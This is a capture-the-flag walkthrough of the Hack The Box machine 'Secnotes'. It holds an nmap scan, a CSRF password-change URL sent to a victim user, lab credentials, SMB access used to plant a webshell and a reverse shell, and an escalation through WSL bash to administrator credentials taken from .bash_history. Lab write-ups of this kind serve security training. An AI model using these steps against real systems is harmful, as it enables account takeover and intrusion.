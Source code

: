 # Secnotes

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.180    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 09:49 EDT
Nmap scan report for 10.129.85.180
Host is up (0.010s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast
```

Interesting ports for a Windows machine.

### Request Forgery

Port 80 just shows a login page:

<figure><img src="../../../.gitbook/assets/image (31) (3).png" alt=""><figcaption></figcaption></figure>

We can create a user to login.

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

There's a user with an email, and this user might click on the links we send. I sent one like so:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

And we do indeed get a callback on a `nc` listening port.

```
$ nc -lvnp 80                          
listening on [any] 80 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.85.180] 49797
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17134.228
Host: 10.10.14.13
Connection: Keep-Alive
```

So there's some request forgery going on here. I tried changing passwords, and viewed the request in Burp:

```http
POST /change_pass.php HTTP/1.1
Host: 10.129.85.180
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://10.129.85.180
Connection: close
Referer: http://10.129.85.180/change_pass.php
Cookie: PHPSESSID=8ufhg7s7ejqtmjcfike2ek21fl
Upgrade-Insecure-Requests: 1



password=test%40123&confirm_password=test%40123&submit=submit
```

I found that if we convert this to a GET requests, it still works. This means we can change the password of the user by redirecting him to the `change.php` site and entering the same parameters. Send this to the Contact Us page:

{% code overflow="wrap" %}
```
http://10.129.85.180/change_pass.php?password=easypass&confirm_password=easypass&submit=submit
```
{% endcode %}

After waiting for a bit, we can login as `tyler` using this password.

<figure><img src="../../../.gitbook/assets/image (50) (5).png" alt=""><figcaption></figcaption></figure>

There are some credentials located within the note **new site**.&#x20;

```
\\secnotes.htb\newsite
tyler / 92g!mA8BGjOirkL%OG*&
```

### SMB

Now that we have some credentials, we can check whether they are valid:

```
$ smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.129.85.182
[+] IP: 10.129.85.182:445       Name: 10.129.85.182                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        new-site                                                READ, WRITE
```

So we have read and write permissions on `new-site`. There's another IIS web server on port 8808, which I think is the new site being referred to. We can put a webshell on it and check if it works.&#x20;

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Now we have RCE, and we can get a reverse shell through downloading and executing `nc.exe`.

&#x20;

<figure><img src="../../../.gitbook/assets/image (20) (9).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Bash Shell

Within the user's desktop, there is a `bash.lnk` file:

```
C:\Users\tyler\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\Users\tyler\Desktop

08/19/2018  03:51 PM    <DIR>          .
08/19/2018  03:51 PM    <DIR>          ..
06/22/2018  03:09 AM             1,293 bash.lnk
08/02/2021  03:32 AM             1,210 Command Prompt.lnk
04/11/2018  04:34 PM               407 File Explorer.lnk
06/21/2018  05:50 PM             1,417 Microsoft Edge.lnk
06/21/2018  09:17 AM             1,110 Notepad++.lnk
05/04/2023  07:02 AM                34 user.txt
08/19/2018  10:59 AM             2,494 Windows PowerShell.lnk
```

When we view its contents, we can't make out a lot but we can see that `bash.exe` is installed on the system:

{% code overflow="wrap" %}
```
C:\Users\tyler\Desktop>type bash.lnk
type bash.lnk
L�F w������V�   �v(���  ��9P�O� �:i�+00�/C:\V1�LIWindows@       ﾋL���LI.h���&WindowsZ1�L<System32B   ﾋL���L<.p�k�System32▒Z2��LP� bash.exeB  ﾋL<��LU.�Y����bash.exe▒K-JںݜC:\Windows\System32\bash.exe"..\..\..\Windows\System32\bash.exeC:\Windows\System32�%�
                                                                    �wN�▒�]N�D.��Q���`�Xsecnotesx�<sAA��㍧�o�:u��'�/�x�<sAA��㍧�o�:u��'�/�=  �Y1SPS�0��C�G����sf"=dSystem32 (C:\Windows)�1SPS��XF�L8C���&�m�q/S-1-5-21-1791094074-1363918840-4199337083-1002�1SPS0�%��G▒��`����%
        bash.exe@������
                       �)
                         Application@v(���      �i1SPS�jc(=�����O�▒�MC:\Windows\System32\bash.exe91SPS�mD��pH�H@.�=x�hH�(�bP
```
{% endcode %}

We can search for this using `where`.&#x20;

```
C:\Users\tyler\Desktop>where /R c:\ bash.exe
c:\Windows\System32\bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

The first one doesn't work, so I tried the second one.

<figure><img src="../../../.gitbook/assets/image (25) (7).png" alt=""><figcaption></figcaption></figure>

We would spawn in a `root` shell. We can spawn a PTY shell the normal way with `python3`.

```
exitroot@SECNOTES:~# ls -la
ls -la
total 8
drwx------ 1 root root  512 Jun 22  2018 .
drwxr-xr-x 1 root root  512 Jun 21  2018 ..
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
```

Then, when viewing the bash history file, we can see credentials for the administrator:

```
root@SECNOTES:~# cat .bash_history
<TRUNCATED>
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```

We can verify these credentials via `smbmap`.&#x20;

<figure><img src="../../../.gitbook/assets/image (37) (6).png" alt=""><figcaption></figcaption></figure>

We have complete control over the file system, and we can get a shell with `smbexec.py` because only SMB is open.

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
